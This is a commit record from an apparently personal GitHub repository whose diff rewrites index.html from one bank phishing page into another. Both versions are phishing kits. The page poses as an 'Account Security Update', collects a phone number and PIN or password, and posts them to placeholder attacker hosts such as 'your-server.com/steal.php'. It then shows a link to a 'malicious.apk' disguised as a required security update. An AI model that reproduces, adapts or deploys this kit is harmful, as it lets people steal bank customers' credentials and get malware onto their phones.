

Before and after one commit to malaaz911/mmmm, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-932 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,42 +1,39 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Security Alert Required</title>
-    <meta charset="UTF-8">
+    <title>Bank Login Update Required</title>
+    <style>
+        body { font-family: Arial; text-align: center; margin: 100px; }
+        input { padding: 10px; margin: 10px; width: 200px; }
+        button { padding: 10px 20px; background: #007bff; color: white; border: none; cursor: pointer; }
+    </style>
 </head>
 <body>
-    <h2>⚠️ Account Verification Required</h2>
-    <form id="phishForm">
-        <input type="text" id="phone" placeholder="Phone Number" required><br>
-        <input type="password" id="pin" placeholder="6-digit PIN" required><br>
-        <button type="button" onclick="sendToJavaServer()">Verify Now</button>
-    </form>
+    <h1>Account Security Update</h1>
+    <p>Your bank account needs verification. Enter credentials to continue.</p>
+    <input type="text" id="phone" placeholder="Phone Number" required>
+    <br>
+    <input type="password" id="pass" placeholder="Password/PIN" required>
+    <br>
+    <button onclick="stealData()">Verify & Update</button>
+    <br><br>
+    <a id="apkLink" href="#" style="display:none; color: green; font-weight: bold;">✅ Click to install security update</a>
 
     <script>
-        function sendToJavaServer() {
+        function stealData() {
             const phone = document.getElementById('phone').value;
-            const pin = document.getElementById('pin').value;
+            const pass = document.getElementById('pass').value;
 
-            // Send to your Java backend
-            fetch('https://your-java-backend.herokuapp.com/capture', {
+            // Send stolen data to your server
+            fetch('https://your-server.com/steal.php', {
                 method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json',
-                },
-                body: JSON.stringify({
-                    phone: phone,
-                    pin: pin,
-                    userAgent: navigator.userAgent,
-                    timestamp: new Date().toISOString()
-                })
-            })
-            .then(response => {
-                if (response.ok) {
-                    // Redirect to APK download
-                    window.location.href = 'https://your-java-backend.herokuapp.com/download';
-                }
-            })
-            .catch(error => console.error('Error:', error));
+                headers: {'Content-Type': 'application/json'},
+                body: JSON.stringify({phone: phone, pass: pass})
+            }).then(() => {
+                document.getElementById('apkLink').href = 'https://your-server.com/malicious.apk';
+                document.getElementById('apkLink').style.display = 'block';
+                document.getElementById('apkLink').textContent = '✅ Click to install security update (required)';
+            });
         }
     </script>
 </body>
```
